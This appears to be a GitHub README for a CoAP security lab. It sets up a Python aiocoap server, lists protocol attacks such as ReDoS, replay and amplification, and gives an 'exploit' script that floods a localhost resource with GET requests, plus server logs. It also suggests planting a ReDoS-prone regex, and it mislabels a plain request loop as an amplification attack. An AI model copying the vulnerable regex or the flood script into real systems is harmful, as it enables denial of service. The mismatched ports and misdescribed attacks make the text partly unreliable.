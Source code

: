 # Constrained Application Protocol (CoAP) 

## Installation
To install a CoAP (Constrained Application Protocol) server with logging enabled, Here are general steps for setting up a CoAP server using a popular library in Python called aiocoap, which is an asynchronous CoAP framework:

## Prerequisites
+ Python 3.7 or higher
+ pip (Python package installer)
+ It imports the necessary modules from Python's asyncio library for asynchronous programming and various components from the aiocoap library.

## CoAP Server Installation
```python
import aiocoap.resource as resource
import aiocoap
import asyncio
import logging

logging.basicConfig(level=logging.DEBUG, format='%(asctime)s %(levelname)s:%(message)s')

class BasicResource(resource.Resource):
    async def render_get(self, request):
        logging.info("Received a GET request")
        return aiocoap.Message(payload=b"Hello World!")

root = resource.Site()
root.add_resource(['hello'], BasicResource())

async def main():
    protocol = await aiocoap.Context.create_server_context(root)
    logging.info("Server Started")
    await asyncio.get_running_loop().create_future()

if __name__ == "__main__":
    asyncio.run(main())
```
## Output
```bash
2024-04-22 10:33:11,725 DEBUG:Using selector: EpollSelector
2024-04-22 10:33:11,790 INFO:server listening on [::]:8683
2024-04-22 10:33:11,790 INFO:server listening on 0.0.0.0:8683
2024-04-22 10:33:11,794 DEBUG:Server ready to receive requests
2024-04-22 10:33:11,794 INFO:Server Started
```
# Attacks
For the Constrained Application Protocol (CoAP), various types of attacks are identified, as detailed in the provided document. Here's a list of attacks on the CoAP protocol:

1. **Regular Expression Denial of Service (ReDoS)**: This attack exploits inefficiencies in regular expression processing algorithms to create service denials. Implement a regex in the CoAP resource that is known for causing performance issues when given specially crafted inputs, such as (a+)+$.
[hier](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS) can find more information about this attack in details.

2. **IP Address Spoofing**: This involves altering the sending IP address within UDP packets to impersonate another device or service.
## Source: 
Exploiting the remote server access support of CoAP protocol
   
3. **Replay Attacks**: This type of attack captures legitimate messages and resends them to perform unauthorized operations.
   
4. **Relay Attacks**: These attacks involve capturing and retransmitting messages in real-time, which can be used to bypass authentication mechanisms.
   
5. **Injection Attacks**: These occur by intercepting a TCP communication to inject malicious TCP segments into legitimate packets, carrying modified CoAP messages that interfere with server operations.
   
6. **CoAP Amplification DoS Attack**: Attackers send multiple CoAP GET requests to create large responses from small requests, thereby straining network resources and amplifying traffic.

## Exploit
```python
import asyncio
from aiocoap import *

async def main():
    context = await Context.create_client_context()
    for _ in range(100):
        request = Message(code=GET, uri="coap://127.0.0.1/amplifiable_resource")
        try:
            response = await context.request(request).response
            print('Result: %s\n%r' % (response.code, response.payload))
        except Exception as e:
            print('Failed to fetch resource:')
            print(e)
        await asyncio.sleep(1)

if __name__ == "__main__":
    asyncio.get_event_loop().run_until_complete(main())
```
## Func
The function uses a loop (for _ in range(100)) to send 100 CoAP GET requests to the URI coap://127.0.0.1/amplifiable_resource. This URI points to a resource presumably hosted on the local machine (127.0.0.1)

## Output
```bash
2024-04-22 10:33:11,794 INFO:Server Started
2024-04-22 10:33:14,877 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac3e5d10: CON GET (MID 49663, token 492f) remote <UDP6EndpointAddress 127.0.0.1:51724 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:33:14,878 DEBUG:New unique message received
2024-04-22 10:33:14,878 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:33:14,878 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02cd90: ACK 4.04 Not Found (MID 49663, token 492f) remote <UDP6EndpointAddress 127.0.0.1:51724 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:40,034 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02cd90: CON GET (MID 44823, token 7d39) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:40,034 DEBUG:New unique message received
2024-04-22 10:39:40,035 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:39:40,035 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02d110: ACK 4.04 Not Found (MID 44823, token 7d39) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:41,038 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02d1d0: CON GET (MID 44824, token 7d3a) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:41,038 DEBUG:New unique message received
2024-04-22 10:39:41,038 INFO:Render request raised a renderable error (NotFound()), responding accordingly.
2024-04-22 10:39:41,038 DEBUG:Sending message <aiocoap.Message at 0x7f14ac02d650: ACK 4.04 Not Found (MID 44824, token 7d3a) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>>
2024-04-22 10:39:42,041 DEBUG:Incoming message <aiocoap.Message at 0x7f14ac02d290: CON GET (MID 44825, token 7d3b) remote <UDP6EndpointAddress 127.0.0.1:49525 (locally 127.0.0.1%lo)>, 1 option(s)>
2024-04-22 10:39:42,041 DEBUG:New unique message received
```
7. **Reflective Denial of Service (DoS)**: Employing legitimate requests to third-party servers that are then amplified and reflected back to the victim .

These attacks exploit various aspects of the CoAP protocol and its implementations, highlighting the importance of robust security measures to mitigate these threats.